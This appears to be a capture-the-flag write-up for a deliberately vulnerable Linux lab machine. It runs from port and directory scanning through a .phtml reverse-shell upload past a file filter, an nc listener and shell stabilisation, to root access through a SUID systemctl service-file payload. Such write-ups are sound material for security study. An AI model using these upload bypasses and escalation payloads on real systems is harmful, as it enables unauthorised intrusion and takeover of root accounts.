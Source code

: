 # Vulnversity - Linux

**IP may change over the document**

## Enumeration

### Nmap: `nmap -sV 10.10.169.111 -oN nmap-initial`

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
```

### Gobuster: `gobuster dir -u http://10.10.169.111:3333 -w ../common_wl.txt | tee gobuster-scan`

```
/.hta                 (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 299]
/.htaccess            (Status: 403) [Size: 299]
/css                  (Status: 301) [Size: 319] [--> http://10.10.169.111:3333/css/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.169.111:3333/fonts/]
/images               (Status: 301) [Size: 322] [--> http://10.10.169.111:3333/images/]
/index.html           (Status: 200) [Size: 33014]                                      
/internal             (Status: 301) [Size: 324] [--> http://10.10.169.111:3333/internal/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.169.111:3333/js/]      
/server-status        (Status: 403) [Size: 303]                                          
```

**/internal/** seems to have some sort of upload page. It's not taking \*.php files. Trying to upload a reverse shell in \*.phtml... It works.

Running gobuster again on **/internal/** directory we get:

```
/.hta                 (Status: 403) [Size: 303]
/.htaccess            (Status: 403) [Size: 308]
/.htpasswd            (Status: 403) [Size: 308]
/css                  (Status: 301) [Size: 328] [--> http://10.10.169.111:3333/internal/css/]
/index.php            (Status: 200) [Size: 525]                                              
/uploads              (Status: 301) [Size: 332] [--> http://10.10.169.111:3333/internal/uploads/]
```

Checking **/internal/uploads/** we can see our shell. Let's connect to reverse shell script using nc now.


`nc -lvp 6565` : will start listening on the port 6565 and then let's click on the uploaded shell on browser window. We got a connection...

Stabilizing shell using following:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
CTRL+z
stty raw -echo; fg 
xterm=256-xtermcolor
```

## User.txt

Let's see the users on system: `grep -E "/bin/.*sh" /etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```

The user flag is at */home/bill* directory and is world readable.

## Root.txt

Let's figure out if there is any suid enabled binary for exploitation using find

`find / -perm -u=s -type f 2>/dev/null`

`/bin/systemctl` - lets check this out in [gftobins](https://gtfobins.github.io/gtfobins/systemctl/)

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root_file"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

`/bin/systemctl enable --now $TF` : this may result in a message about *[Install]* section being not found in the service file. Just ignore it and give it a few seconds and it will be writing your *root.txt* file to */tmp/root_file* 

Now just cat the flag found in */tmp/root_file*.
